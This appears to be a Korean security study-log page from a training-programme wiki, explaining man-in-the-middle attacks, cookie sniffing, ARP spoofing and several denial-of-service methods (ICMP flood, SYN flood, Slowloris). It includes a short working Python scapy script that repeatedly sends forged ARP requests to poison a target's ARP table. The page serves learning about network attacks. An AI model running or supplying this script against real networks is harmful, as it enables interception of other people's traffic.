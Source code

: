 ```yaml
---
layout: default
title: 네트워크 해킹 기법 및 보안(보안)
nav_order: 7

parent: Network
grand_parent: Pre-Training Bob

---
```


##### bob 11th 지원대상자가 이수해야 할 사전 교육에 대한 학습 일지입니다.

-----

# MITM attack
- Man In The Middle Attack. 중간자 공격
- 네트워크 통신 내용을 도청하거나 조작하는 공격 기법
- Sniffing(킁킁거리다. 냄새를 맡다)
- Spoofing(오염시키다)

## Cookie Sniffing
### Cookie
- 하이퍼 텍스트 기록 값으로, 인터넷 사용자가 어떠한 웹사이트를 방문할 경우 그 사이트가 사용하고 있는 서버를 통해 인터넷 사용자의 컴퓨터에 설치되는 작은 기록 정보 파일을 일컫는다.
- 오늘날 많은 서버 및 웹사이트들이 브라우저의 신속성을 위해 사용한다.
- 행동추적 또는 쿠키값을 훔쳐서 다른 사용자의 계정 권한을 획득할 수 있다.

|               | Cookie                  | Session                              |
| ------------- | ----------------------- | ----------------------- |
| 저장 위치     | 클라이언트에 저장       | 서버에 저장                          |
| 라이프 사이클 | 보통 만료기간 동안 유지 | 만료기간 존재.브라우저 종료 시 삭제|
| 장점          | 서버 성능 저하 X        | 높은 보안성                          |
| 단점          | 낮은 보안성             | 서버 부담                            |

<br>

## ARP Spoofing

![image-20220605132811718](../img/image-20220605132811718.png)


### ARP table 조작
- ARP Request
  - 출발지 IP, MAC, 도착지 IP 정보를 이용해 목적지의 MAC 정보를 요청
  - 라우터의 IP와 공격자의 MAC을 출발지로 설정하고 타겟에게 요청할 경우, 타켓의 APR table에서 라우터 정보 부분을 공격자의 MAC으로 저장함.

| Opcode | ARP Message Type |
| :----: | :--------------: |
|   1    |   ARP Request    |
|   2    |    ARP Reply     |
|   3    |   RARP Request   |
|   4    |    RARP Reply    |
|   5    |  DRARP Request   |
|   6    |   DRARP Reply    |
|   7    |   DRARP Error    |
|   8    |  InARP Request   |
|   9    |   InARP Reply    |



```python
from scapy.all import *
from subprocess import call
import argparse
import time

op = 1 #arp request op = 1
arg_parser = argparse.ArgumentParser(description='python3 arps.py [target ip] [target mac] [router ip]')
arg_parser.add_argument('tip', help="input target ip address")
arg_parser.add_argument('tmac', help="input target mac address")
arg_parser.add_argument('rip', help="input router ip address")

arg = arg_parser.parse_args()

target_ip = arg.tip
target_mac = arg.tmac
router_ip = arg.rip

arp = ARP(op=op, psrc=router_ip, pdst=target_ip, hwdst=target_mac)

while 1:
	send(arp)
	time.sleep(2)
```



<br>

# DoS/DDos

## DoS
- Denial of Service, 서비스 거부 공격
- 시스템을 악의적으로 공격해 원래 의도된 용도로 사용하지 못하게 한다. 보통 인터넷 사이트 또는 서비스의 기능을 일시적 또는 영구적으로 방해 및 중단을 초래한다.

### 특징
1. 시스템 자원 고갈 공격
  - CPU, 메모리, 디스크 자원 고갈


2. 네트워크 자원 고갈 공격
  - 무의미한 값으로 네트워크 대역폭 고갈 

- 공격자를 찾기가 어려운 편

<br>

## DDoS
- Distributed Denail of Serivce, 분산형 서비스 거부 공격
- 여러 대의 공격자(피해자 컴퓨터)를 분산적으로 배치해 동시에 서비스 거부 공격을 한다.


### ICMP ping Flooding
- 가장 기본적인 Layer3 DoS 공격의 형태.
- Echo request와 Echo response 모두 트래픽을 키울 수 있음.

![image-20220605151525166](../img/image-20220605151525166.png)

- 공격 예시의 패킷 정보를 볼 수 있음
[https://kb.mazebolt.com/knowledgebase/icmp-ping-flood/](https://kb.mazebolt.com/knowledgebase/icmp-ping-flood/)

<br>

### TCP SYN Flooding
- 방화벽과 로드밸런서 등 상태 분석형 요소나 백엔드 서버로의 연결 자원을 소모하게 하는 방법.
- 공격 패킷의 source ip 를 스푸핑하면서 대상 서비스에 아주 많은 TCP SYN 요청을 전송.
- TCP backlog가 포화되어 더이상 새로운 연결을 받을 수 없게 된다.

![image-20220605152146779](../img/image-20220605152146779.png)

[https://kb.mazebolt.com/knowledgebase/syn-flood/](https://kb.mazebolt.com/knowledgebase/syn-flood/)

<br>

### Slowloris Attack
- Robert Hansen이 개발한 서비스 거부 공격 도구
- 가능한 많은 연결을 열어두고 가능한 오랜 기간 유지시키려고 함
- 주기적으로 후속 HTTP 헤더를 보내 요청하지만, 완료시키지 않음
- 최대 동시 연결 풀을 포화시키면 새로운 연결 시도가 거부됨

![image-20220605152648301](../img/image-20220605152648301.png)

[https://kb.mazebolt.com/knowledgebase/slowloris-attack/](https://kb.mazebolt.com/knowledgebase/slowloris-attack/)

- HTTP의 연결은 두 개의 CRLF(0d 0a)가 존재해야하지만 해당 공격은 한 개만 작성하여 아직 연결이 끝나지 않았다는 식의 통신을 지속. 때문에 Wireshark에서도 해당 패킷을 HTTP가 아닌 TCP 패킷으로 인식함
![image-20220605153038805](../img/image-20220605153038805.png)


※ CRLF: 줄바꿈(newline)을 입력하는 문자를 칭하는 표현. /r/n

